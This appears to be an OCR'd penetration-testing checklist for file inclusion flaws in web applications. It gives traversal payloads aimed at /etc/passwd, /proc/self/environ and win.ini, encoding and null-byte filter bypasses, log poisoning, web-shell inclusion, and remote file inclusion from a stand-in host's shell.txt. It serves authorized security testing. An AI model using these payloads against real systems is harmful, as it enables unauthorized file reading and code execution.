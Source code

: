1.  **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept file path inputs.
    - [ ] Review source code (if available) to understand file handling mechanisms.
    - [ ] Check for endpoints where file paths are passed as parameters in URLs, headers, or body.

2.  **Basic LFI Testing**
    - [ ] `../../../../etc/passwd`
    - [ ] `..%2F..%2F..%2F..%2Fetc%2Fpasswd`
    - [ ] `../../../../../../../../../../../etc/passwd`
    - [ ] Try to include different system files (e.g., `/etc/hosts`, `/proc/version`, `C:\Windows\win.ini`).

3.  **Path Traversal**
    - [ ] URL encoding: `%2e%2e%2f`, `%2e%2e%2f`
    - [ ] Double URL encoding: `%252e%252e%252f`
    - [ ] Unicode encoding: `..%c0%af..%c0%af..%c0%af`
    - [ ] Test bypass techniques for traversal filters (e.g., using null bytes `.%00`, appending slashes).

4.  **Advanced Path Traversal Techniques**
    - [ ] Test for double encoding vulnerabilities.
    - [ ] Try bypassing filters with non-standard encodings and mixed encodings.
    - Use directory traversal sequences with variations like:
        - [ ] `....//`
        - [ ] `....\/`
        - [ ] `%2e%2e%2f%2e%2e%2f`

5.  **File Inclusion and Execution**
    - [ ] `/etc/passwd` (Linux)
    - [ ] `/proc/self/environ`
    - [ ] `/proc/self/fd/0`
    - [ ] `C:\Windows\win.ini` (Windows)
    - [ ] Test for inclusion of log files, configuration files, or other readable files.

6.  **Null Byte Injection**
    - [ ] `/etc/passwd%00`
    - [ ] `C:\Windows\win.ini%00`

7.  **File Upload and Inclusion**
    
    - [ ] Check if file upload functionalities are present and try uploading files for inclusion.
    - [ ] Test inclusion of uploaded files to execute code (e.g., web shells).

8.  **Log Poisoning and Inclusion**
    - [ ] Inject payload into User-Agent, Referer, or other headers.
    - [ ] Include poisoned log files to execute injected payloads.

9.  **Remote File Inclusion (RFI)**
    
    - [ ] Check if the application allows remote file inclusion.
    -  Test including remote files via HTTP or FTP URLs:
        - [ ] `http://example.com/shell.txt`
        - [ ] `ftp://example.com/shell.txt`

10. **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about the presence of LFI vulnerabilities.
    - [ ] Look for error messages that disclose file paths or other sensitive information.
    - [ ] Verify if application stack traces are exposed in responses.